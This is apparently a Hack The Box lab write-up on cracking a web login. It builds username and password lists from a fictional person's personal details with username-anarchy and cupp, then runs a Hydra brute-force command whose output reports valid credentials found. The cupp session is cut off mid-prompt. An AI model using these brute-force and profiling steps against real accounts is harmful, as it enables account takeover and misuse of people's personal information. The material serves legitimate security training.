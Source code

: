 Use the two generated lists in Hydra against the target to brute-force the login form. Remember to change the target info for your instance.


```shell-session
smoothment@htb[/htb]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
```

Once Hydra has completed the attack, log into the website using the discovered credentials and retrieve the flag.

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250213154452.png)

Let's begin by creating the usernames list:

```
./username-anarchy Jane Smith > usernames.txt
```

Nice, let's create the passwords list using `cupp`:

```
cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
```